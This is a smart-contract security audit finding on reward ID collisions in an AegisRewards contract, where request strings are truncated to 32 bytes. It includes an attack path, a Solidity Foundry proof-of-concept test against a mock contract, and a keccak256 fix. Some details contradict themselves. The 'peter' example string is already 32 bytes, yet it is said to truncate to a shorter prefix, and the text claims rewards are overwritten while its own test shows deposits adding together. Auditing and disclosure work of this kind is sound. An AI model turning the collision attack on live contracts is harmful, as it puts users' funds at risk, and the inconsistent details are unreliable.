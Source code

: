 Long Wintergreen Bee

High

# User can overwrite or hijack reward records by exploiting reward ID truncation in depositRewards()

### Summary

Using function [_stringToBytes32()](https://github.com/sherlock-audit/2025-04-aegis-op-grant-RevCrew77/blame/fb7ce5f2a9d92dfa59fa08aa6472a49f00c25e8a/aegis-contracts/contracts/AegisRewards.sol#L188) in AegisRewards.sol contract https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L188-L192

reads the first 32 bytes of a string. This can cause truncation in the reward ID generation will cause reward record collisions for all users as a malicious actor can submit Order.additionalData values that intentionally map to the same bytes32 ID via truncation, allowing them to overwrite or hijack other users’ rewards.

### Root Cause

In [    bytes32 id = _stringToBytes32(abi.decode(requestId, (string)));](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L161) , the reward ID is computed via _stringToBytes32(...), which truncates user input to 32 bytes, instead of hashing it safely. This unsafe conversion allows different strings (longer than 32 bytes but sharing a common prefix) to map to the same bytes32, creating reward ID collisions.

### Internal Pre-conditions

1. Aegis contract has called depositIncome() with a valid Order object.
2. The Order.additionalData field is a user-controlled string longer than 32 bytes.
3. The attacker must send multiple orders with different additionalData strings that truncate to the same first 32 bytes.

### External Pre-conditions

-

### Attack Path

1. User submits a valid depositIncome() call with order.additionalData = "reward-abc-123-unique-user-peter".
2. Contract mints YUSD to aegisRewards and calls depositRewards("reward-abc-123-unique-user-peter", ...), which is truncated to:
    bytes32("reward-abc-123-unique-user-pe")
3. Attacker observes this and submits a separate call with order.additionalData = "reward-abc-123-unique-user-peterson", also truncating to:
    bytes32("reward-abc-123-unique-user-pe")
4. The contract writes new reward data under the same reward ID, overwriting the previous entry.
5. The attacker can now claim or deny rewards meant for the user, or grief the protocol by corrupting reward state.

### Impact

The users suffer a loss of reward access or accuracy, as legitimate YUSD rewards can be overwritten, hijacked, or rendered unclaimable
 - Attacker gain: In some designs, the attacker can potentially claim the overwritten rewards.
 - If not claimable: It becomes a griefing attack, permanently destroying the user's rewards.

### PoC

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import "forge-std/Test.sol";

contract AegisRewards {
    struct Reward {
        uint256 amount;
    }

    mapping(bytes32 => Reward) public rewards;

    event DepositRewards(bytes32 indexed id, uint256 amount);

    function depositRewards(bytes calldata requestId, uint256 amount) external {
        bytes32 id = _stringToBytes32(abi.decode(requestId, (string)));
        rewards[id].amount += amount;
        emit DepositRewards(id, amount);
    }

    function _stringToBytes32(string memory source) private pure returns (bytes32 result) {
        bytes memory str = bytes(source);
        if (str.length == 0) {
            return 0x0;
        }
        assembly {
            result := mload(add(source, 32))
        }
    }

    function getAmount(string memory key) external view returns (uint256) {
        return rewards[_stringToBytes32(key)].amount;
    }
}

contract AegisRewardsPoC is Test {
    AegisRewards rewards;

    function setUp() public {
        rewards = new AegisRewards();
    }

    function testCollision() public {
        // both strings share the same first 32 bytes
        string memory originalId = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
        string memory collidingId = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaEXTRA";

        bytes32 id1 = _stringToBytes32(originalId);
        bytes32 id2 = _stringToBytes32(collidingId);

        assertEq(id1, id2, "IDs should collide!");

        // user deposits under the original ID
        rewards.depositRewards(abi.encode(originalId), 100);
        assertEq(rewards.getAmount(originalId), 100, "Initial balance should be 100");

        // attacker deposits under the colliding ID
        rewards.depositRewards(abi.encode(collidingId), 999);

        // user's balance is now corrupted
        uint256 corruptedBalance = rewards.getAmount(originalId);
        emit log_named_uint("Corrupted balance after collision", corruptedBalance);

        assertEq(corruptedBalance, 1099, "Balance should reflect both deposits due to collision");
    }

    function _stringToBytes32(string memory source) internal pure returns (bytes32 result) {
        bytes memory str = bytes(source);
        if (str.length == 0) {
            return 0x0;
        }
        assembly {
            result := mload(add(source, 32))
        }
    }
}```

### Mitigation

change with:
```solidity
function _stringToBytes32(string memory source) private pure returns (bytes32) {
    return keccak256(abi.encode(source));
}
```